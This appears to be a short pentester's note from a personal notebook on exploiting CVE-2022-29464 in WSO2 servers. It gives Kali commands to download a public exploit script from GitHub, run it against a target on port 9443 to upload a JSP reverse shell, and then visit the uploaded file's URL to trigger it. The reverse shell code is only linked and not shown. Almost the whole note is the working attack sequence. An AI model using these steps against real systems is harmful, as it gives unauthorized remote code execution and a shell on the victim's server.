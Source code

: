 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```

![[0._Reverse shells (WEB)#jsp]]

```bash - kali
python3 exploit.py https://$TARGET:9443 reverse.jsp
```

Next, we just visit:

`https://$TARGET:9443/authenticationendpoint/reverse.jsp`














